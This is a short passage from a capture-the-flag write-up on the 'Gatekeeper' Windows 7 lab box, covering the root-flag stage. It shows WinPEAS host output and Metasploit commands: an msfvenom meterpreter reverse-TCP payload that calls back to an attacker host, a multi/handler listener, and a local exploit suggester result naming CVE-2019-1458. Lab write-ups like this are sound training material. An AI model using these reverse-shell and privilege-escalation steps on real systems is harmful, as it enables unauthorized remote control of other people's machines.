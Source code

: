 ![0xskar](/assets/gatekeeper12.png)

**Locate and find the Root Flag**

- We can find the SMB share is located at C:\Users\Share. Upload meterpreter shell? But lets try winpeas first. All I could get to work is Winpeas.bat

## # WinPEAS Results

Host Name:                 GATEKEEPER
OS Name:                   Microsoft Windows 7 Professional
OS Version:                6.1.7601 Service Pack 1 Build 7601
System Type:               x64-based PC                                                                                                          
## # Meterpreter Shell

- ``msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp``
- ``msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.x.x.x LPORT=8888 -f exe -o reverse.exe``
- ``msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester``
- ``[+] 10.10.136.143 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.``
